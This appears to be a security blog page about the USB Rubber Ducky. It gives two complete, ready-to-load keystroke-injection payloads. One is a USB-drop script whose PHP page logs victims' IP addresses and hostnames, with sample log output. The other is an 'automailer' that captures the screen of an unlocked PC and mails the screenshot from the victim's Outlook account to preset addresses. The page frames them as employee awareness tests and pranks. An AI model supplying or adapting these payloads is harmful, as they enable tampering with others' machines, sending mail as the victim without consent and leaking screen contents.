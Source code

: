 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

The Rubber Ducky is a 'flash drive' that types keystroke injection payloads into unsuspecting computers. Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this blog and repository are provided AS-IS without warranty. As with any script, you are advised to proceed with caution.

## Rubber Ducky Dropoff Attack

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks. The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```

The .php was created and loaded into our webpage by one of my colleagues, the code is basically this:

```php
<?php

$file = 'log.txt';
$entry = file_get_contents($file);
$time = date('Y-m-d H:i:s', time());
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s' . PHP_EOL, $time, $ip);
} else {
    $ip = $_SERVER['REMOTE_ADDR'];
    $host = gethostbyaddr($_SERVER['REMOTE_ADDR']);
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s, %s' . PHP_EOL, $time, $host, $ip);
}
file_put_contents($file, $entry);

header('Location: ' . 'https://google.com');
die();
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory. A few days after dropping it off, we had the results we wanted to see:

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

## Rubber Ducky Automailer Prank

To remind people to never keep their PC unlocked, I have created a second script for the RubberDucky. It allows me to plug the USB in an unlocked device, wait while it causes some mischief. The script snaps a screenshot, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted one hour rickroll youtube video once done. 

This configuration works a little better than most others you could find on github as it uses `outlook.exe /c ipm.note /m` instead of opening the outlook messenger somehow different.

```
REM Title:          Automailer
REM Author:	    Ratcode404
REM Description:    Snaps screen, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted 1 hour rickroll youtube video once done.

REM Default Delay (350 should be mid-speed)
DEFAULT_DELAY 350

REM Take screenshot
SHIFT WINDOWS S
DELAY 200
TAB
TAB
TAB
TAB
ENTER
DELAY 300

REM Open Outlook (Change E-Mail and text)
GUI r
DELAY 100
STRING outlook.exe /c ipm.note /m ratcode404@notarealmail.com?v=1&cc=ratcode405@notarealmail.com
ENTER
DELAY 500
STRING Subject goes here.
TAB
STRING Hello Ratcode!
ENTER 
STRING I like to leave my device unlocked and would want to invite you to some free dinner tonight.
ENTER
STRING xoxo

REM Paste Screenshot in Mail (CTRL V)
SHIFT INSERT
DELAY 200

REM Send Mail
ALT S
ENTER
DELAY 200

REM Rickroll, Mute and Fullscreen (Can adjust link obviously)
GUI r
DELAY 100
STRING https://www.youtube.com/watch?v=zL19uMsnpSU
ENTER
DELAY 300
M
DELAY 200
F
```

Since nobody seems to have thought of this way to open the outlook.exe and send mails more efficient, I have created a pull request for the [official Hak5 repository](https://github.com/hak5/usbrubberducky-payloads). 
